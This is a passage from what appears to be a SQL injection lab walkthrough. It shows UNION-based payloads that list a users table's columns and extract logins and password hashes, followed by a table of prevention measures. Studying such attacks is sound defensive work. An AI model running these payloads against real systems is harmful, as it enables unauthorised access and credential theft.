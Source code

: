 ## Step 7: Retrieving Columns of a Target Table
Once we identify a table of interest (e.g., users), we list its columns.
``` sql
' UNION SELECT 1,2,3,4,column_name,6,7 FROM information_schema.columns where table_name="users" --
```
<img width="602" height="249" alt="image" src="https://github.com/user-attachments/assets/9af4cd97-af11-4807-bb28-bb9bbf133cf4" />

## Step 8: Extracting Usernames & Password Hashes
Now we dump data from the target table.
```sql
' UNION SELECT 1,login,3,4,password,6,7 FROM users --
```
<img width="602" height="251" alt="image" src="https://github.com/user-attachments/assets/f80b984e-5d3a-4116-bd8e-627042207424" />

## Step 7: Prevention & Mitigation

| Method                   | Description                                                                                   |
|--------------------------|-----------------------------------------------------------------------------------------------|
| **Parameterized Queries**| Use prepared statements with bound parameters (e.g., PDO, `mysqli` in PHP) to avoid injections.|
| **Input Validation**     | Reject or sanitize special SQL characters from user input before processing.                  |
| **Least Privilege Principle** | Limit database user rights — remove unnecessary privileges like `DROP` or `DELETE`.        |
| **WAF Protection**       | Deploy a Web Application Firewall to detect and block SQL injection patterns.                 |
| **Error Handling**       | Suppress detailed SQL error messages from being displayed to end users.                        |
| **Security Testing**     | Perform regular penetration tests using tools like **SQLMap**, **Burp Suite**, and **OWASP ZAP**. |


